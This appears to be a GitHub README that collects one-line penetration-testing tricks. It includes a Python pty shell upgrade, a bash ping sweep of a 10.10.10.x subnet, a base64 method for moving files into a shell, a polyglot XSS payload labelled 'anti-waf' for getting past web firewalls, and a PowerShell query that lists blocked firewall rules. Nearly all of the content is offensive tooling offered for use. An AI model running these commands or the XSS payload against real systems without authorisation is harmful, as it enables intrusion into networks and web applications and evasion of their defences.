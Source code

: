 # oneliners
Collection of handy one line things 

### ye olde pty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### look no nmap
for i in `seq 1 255`; do ping -c 1 10.10.10.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done

### Upload not one line
```
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
```
## pentest 

### anti-waf
```
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
### blocked ports 
```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```
